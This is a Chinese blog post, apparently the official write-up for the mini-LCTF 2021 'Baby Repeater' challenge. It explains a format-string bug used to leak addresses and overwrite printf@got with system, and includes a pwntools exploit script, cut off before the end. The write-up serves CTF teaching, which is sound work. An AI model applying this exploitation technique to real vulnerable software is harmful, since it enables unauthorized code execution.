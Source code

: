 

# 【CTF题解NO.00008】mini-LCTF 2021 official write up by arttnba3_arttnba3的博客-CSDN博客

> 来源：[https://blog.csdn.net/arttnba3/article/details/116810766](https://blog.csdn.net/arttnba3/article/details/116810766)

# 0x00.绪论

很高兴能和RX大哥和协会的其他师傅一起出了这一次 minilCTF 2021 的题，虽然说只出了两道比较简单的题233333，不过还是希望大家能够喜欢（）

点开下方查看题解👇

# 0x01.Baby Repeater - fmtstr + got hijack

预期是利用格式化字符串泄露 libc 和 程序加载基地址，之后利用格式化字符串劫持 got 表，比较方便的就是改 printf 为 system，只用修改3个字节，也看到有人选择改为 one_gadget 的，基本上都在预期内

## 解题思路

漏洞点比较明显，一个可以无限使用的格式化字符串漏洞

简单测一下，格式化字符串是栈上的第八个参数

![](img/3418fa12a44c06ff8d25a12c855bb8c1.png)

checksec一下，发现no relro，那就直接利用格式字符串漏洞泄露程序加载基地址与 libc 基址后改 printf@got 为 system 后输入 `;sh` 就可以拿到 shell 了

exp如下：

```
from pwn import *
p = process('./baby_repeater')
e = ELF('./baby_repeater')
libc = ELF('./libc-2.31.so')

p.sendline("%107$p")
p.recvuntil(b"> Your sentence: ")
main_addr = int(p.recvuntil(b'\n', drop = True), 16) - 42
elf_base = main_addr - e.sym['main']
log.success('elf base: ' + hex(elf_base))

p.sendline("%111$p")
p.recvuntil(b"> Your sentence: ")
libc_base = int(p.recvuntil(b'\n', drop = True), 16) - libc.sym['__libc_start_main'] - 243
log.success('libc base: ' + hex(libc_base))

printf_got = elf_base + e.got['printf']
sys_addr = libc_base + libc.sym['system']
sys_low = sys_addr & 0xffff
sys_high = (sys_addr >> 16)  & 0xff

payload = b'%' + str(sys_high - 15).encode() + b'c%12$hhn'
payload += b'%' + str(sys_low - sys_high).encode() + b'c%13$hn'
payload = payload.ljust(4 * 8, b'\x00')
payload += p64(printf_got + 2)
payload += p64(printf_got)

```